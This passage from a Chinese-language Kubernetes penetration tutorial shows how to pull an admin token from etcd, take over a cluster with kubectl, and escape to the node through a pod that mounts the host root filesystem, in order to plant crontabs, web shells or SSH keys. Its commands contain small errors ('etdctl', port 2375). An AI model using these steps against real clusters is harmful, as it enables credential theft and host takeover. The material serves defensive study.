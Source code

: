 如果查询结果有敏感账户，我们便可以去获取他的 token

```bash
etdctl --endpoints=https://etcd_ip:2375/ get /registry/secrets/default/admin-token-55712
```

[![](assets/1698894613-11ca4984c42921bff643205c7cec1010.png)](https://storage.tttang.com/media/attachment/2022/03/12/f4a6d3dc-4d2f-4305-8aee-0ebca21cc640.png)

拿到 token 以后，用 kubectl 接管集群

```bash
kubectl --insecure-skip-tls-verify -s https://master_ip:6443/ --token="xxxxxx" get nodes
```

## [执行](#toc__5)

### [\*目录挂载逃逸](#toc__6)

这个技术是综合了执行、持久化、权限提升的一个攻击方法，为了省事，就放在这里一块说了。

首先，在我们获取了 api server 控制权后，我们可以创建 Pod，并在容 Pod 内部执行命令。如果我们在创建 Pod 时，将 Node 节点的根目录挂载到 Pod 的某个目录下，由于我们能在 Pod 内部执行命令，所以我们可以修改挂载到 Pod 下的 Node 节点根目录中文件的内容，如果我们写入恶意 crontab、web shell、ssh 公钥，便可以从 Pod 逃逸到宿主机 Node，获取 Node 控制权。

具体复现如下

先创建一个恶意 Pod

```bash
首先我们创建恶意 Pod，可以直接创建 Pod，也可以用 Deployment 创建。
既然提到创建 Pod，那么就多提一句：直接创建 Pod 和用 Deployment 创建 Pod 的区别是什么？

Deployment 可以更方便的设置 Pod 的数量，方便 Pod 水平扩展。
Deployment 拥有更加灵活强大的升级、回滚功能，并且支持滚动更新。
使用 Deployment 升级 Pod 只需要定义 Pod 的最终状态，k8s 会为你执行必要的操作。

如果创建一个小玩意，那么直接创建 Pod 就行了，没必要用 deployment。
_______________________________________
用 Pod 创建
apiVersion: v1
kind: Pod
metadata:
  name: evilpod
spec:
  containers:
  - image: nginx
    name: container
    volumeMounts:
    - mountPath: /mnt
      name: test-volume
  volumes:
  - name: test-volume
    hostPath:
      path: /

__________________________________
用 deployment 创建
apiVersion: apps/v1
kind: Deployment
```